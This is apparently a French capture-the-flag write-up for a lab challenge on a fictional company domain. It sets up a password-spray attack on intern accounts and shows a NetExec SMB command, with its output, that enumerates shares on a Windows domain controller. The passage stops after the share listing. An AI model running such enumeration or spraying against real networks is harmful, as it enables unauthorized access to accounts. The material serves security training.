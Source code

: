 # Houston, we have a problem  

> CTFCORP a récemment accueilli de nouveaux stagiaires. L'équipe de sécurité soupçonne que des mots de passe par défaut n'ont pas été changés. Votre mission : vérifier si ces comptes sont vulnérables à une attaque par password spray et obtenir l'accès aux ressources partagées.

``51.89.228.14``

Identifiants de connexion:

``Nom d'utilisateur: gomme70565_404Player``

``Mot de passe: <password>``

En regardant les utilisateurs, on voit qu'il y a 7 comptes stagiaires. L'un de ces comptes est sûrement vulnérable au password spray.

![alt text](stagiaires.png)

On met tous les noms dans un fichier users.txt

Dans les shares, on découvre qu'il y a Public et Stagiaires

```
└─$ nxc smb 51.89.228.14 -u 'gomme70565_404Player' -p '<password>' --shares
SMB         51.89.228.14    445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.89.228.14    445    DC1              [+] ctfcorp.local\gomme70565_404Player:<password> 
SMB         51.89.228.14    445    DC1              [*] Enumerated shares
SMB         51.89.228.14    445    DC1              Share           Permissions     Remark
SMB         51.89.228.14    445    DC1              -----           -----------     ------
SMB         51.89.228.14    445    DC1              ADMIN$                          Remote Admin
SMB         51.89.228.14    445    DC1              C$                              Default share
SMB         51.89.228.14    445    DC1              IPC$                            Remote IPC
SMB         51.89.228.14    445    DC1              NETLOGON        READ            Logon server share 
SMB         51.89.228.14    445    DC1              Public          READ            Documents publics
SMB         51.89.228.14    445    DC1              Stagiaires      READ            Documents des stagiaires
SMB         51.89.228.14    445    DC1              SYSVOL          READ            Logon server share 

```
